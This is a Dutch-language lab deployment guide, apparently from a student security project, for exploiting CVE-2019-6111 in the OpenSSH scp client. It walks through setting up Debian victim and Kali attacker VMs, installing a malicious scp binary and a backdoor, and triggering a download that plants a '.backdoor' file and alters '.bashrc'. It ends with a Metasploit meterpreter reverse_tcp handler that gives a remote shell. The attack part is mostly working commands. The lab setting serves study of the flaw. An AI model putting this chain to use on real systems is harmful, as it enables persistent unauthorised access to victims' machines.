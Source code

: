 # User Deployment Guide - CVE-2019-6111

Deze deloyment guide beschrijft alle nodige stappen die vereist zijn om de CVE-2019-6111 exploit uit te voeren, met als resultaat een reverse shell op de Debian client.

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om deze exploit te kunnen uitvoeren, moeten we eerst een omgeving opzetten. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian machine zal de machine zijn die we willen aanvallen, en de Kali Linux machine zal de machine zijn die we gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/debian` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/kali` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian client een bestand naar keuze download van een "bad" scp server. De scp server is in dit geval de Kali virtual machine. Om van onze Kali server een "bad" scp server te maken, moeten we een custom `scp` binary installeren. Deze binary is te vinden in de map `src/kali/provision/golang/bin` van deze repository. Om deze binary te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Ook zal men de backdoor in de `/tmp` map moeten plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository. Om deze backdoor te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

Als laatste stap moeten we de `ssh` server opstarten.

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# systemctl start ssh
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten enkel een bestand downloaden van de "bad" scp server. Dit bestand kan eender welk bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`. Om dit bestand te downloaden, moeten we het volgende commando uitvoeren:

```console
$ scp 192.168.0.121:testfile.txt .
```

Na het uitvoeren zal men zien dat er inderdaad een bestand genaamd `testfile.txt` is gedownload. Maar wanneer we `ls -a` doen zal men al snel zien dat er ook een bestand `.backdoor` is gedownload en de `.bashrc` file is aangepast.

# Metasploit<a name="metasploit"></a>

Na dat de backdoor op de Debian client is gedownload, kunnen we een reverse shell opzetten. Hiervoor gebruiken we de Metasploit framework. Om de Metasploit framework te starten, moeten we het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
$ msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Van zodra de gebruiker een nieuwe Bash shell opent, zal dit gedetecteerd worden door de Metasploit. Vervolgens kan men dan de sessie starten door het volgende commando uit te voeren:

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, moeten we dan simpeleweg het volgende commando uitvoeren:

```console
meterpreter > shell
```
